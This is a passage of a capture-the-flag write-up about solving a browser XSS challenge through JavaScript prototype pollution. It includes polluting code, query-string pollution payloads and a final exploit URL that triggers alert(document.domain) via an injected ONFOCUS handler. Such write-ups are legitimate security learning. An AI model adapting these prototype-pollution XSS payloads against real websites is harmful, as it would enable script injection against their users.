({}).__proto__.autofocus = 1;
({}).__proto__.ONFOCUS = "alert(1)";
({}).__proto__.xmlns = "http://www.w3.org/1999/xhtml";

m.render(
  document.getElementById("app"),
  m(
    "div",
    {
      id: "x",
    },
    "TEST"
  )
);
```

and I popped an alert:



At this point I pretty much solved the challenge. I adapted the payload to work on the window makeer revenge challenge by abusing the prototype pollution I found in the first version of the challenge and setting the needed values in the URL:

```
?settings[root][ownerDocument][defaultView][JSON][constructor][prototype][xmlns]=http://www.w3.org/1999/xhtml
?settings[root][ownerDocument][defaultView][JSON][constructor][prototype][ONFOCUS]=alert(1)
?settings[root][ownerDocument][defaultView][JSON][constructor][prototype][autofocus]=1
?settings[root][ownerDocument][defaultView][JSON][constructor][prototype][tabindex]=1
```

and I was able to pop an alert there too.


We win theseeeeeeeeee

After solving the challenge, I also found out why I had to set `xmlns` to be `"http://www.w3.org/1999/xhtml"`. Turns out, the browser parses HTML differently based on the value of `xmlns` attribute on the HTML tag. Setting it to anything other than `"http://www.w3.org/1999/xhtml"` caused the browser to stop recognizing the tags with the attributes I polluted to be recognized as HTML, which resulted in the browser to stop lowercasing my capitalized `ONFOCUS` attribute. 

I found this out after finding [this piece]([mdn doc](https://developer.mozilla.org/en-US/docs/Glossary/XHTML) of MDN documentation and reading the following line:

> In practice, very few "XHTML" documents are served over the web with a Content-Type: application/xhtml+xml header. Instead, even though the documents are written to conform to XML syntax rules, they are served with a Content-Type: text/html header — so browsers parse those documents using HTML parsers rather than XML parsers.

Anyways, heres the final payload I came with:

```
https://aszx87410.github.io/xss-challenge/revenge-of-intigriti-0422/?settings[root][ownerDocument][defaultView][JSON][constructor][prototype][xmlns]=http://www.w3.org/1999/xhtml&settings[root][ownerDocument][defaultView][JSON][constructor][prototype][ONFOCUS]=alert(document.domain)&settings[root][ownerDocument][defaultView][JSON][constructor][prototype][autofocus]=1&settings[root][ownerDocument][defaultView][JSON][constructor][prototype][tabindex]=1&config[window-name]=name&config[window-content]=content&config[window-toolbar][0]=min&config[window-statusbar]=true&config[window-toolbar][constructor][prototype][1]=8080
```

copy paste that URL into the browser and you too can solve the challenge!

# Summary

These 2 challenges took forever to solve, but in the end it was well worth it. After solving the challenges, I came out with a deeper understanding of prototype pollution and got more comfortable with reading source code and using the chrome dev tools debugger. Thank you very much Huli for creating these challenges :)

Also omg creating writeups for these challenges takes sooo fking long. I now have more respect for all my favorite bloggers...

